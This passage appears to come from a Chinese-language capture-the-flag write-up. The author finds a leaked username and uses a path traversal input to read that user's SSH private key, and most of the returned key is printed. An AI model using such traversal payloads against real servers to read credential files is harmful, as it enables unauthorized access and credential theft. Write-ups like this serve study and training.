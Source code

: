 我在网页标题下面的那个Json文件中发现了泄露的用户名：`shirohige`

![](./images/image-143.png)

因此尝试读取他的`ssh`私钥内容

```
../../../../../../../home/shirohige/.ssh/id_rsa

{
  "/home/shirohige/logs/../../../../../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN OPENSSH PRIVATE KEY-----\n",
    "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\n",
```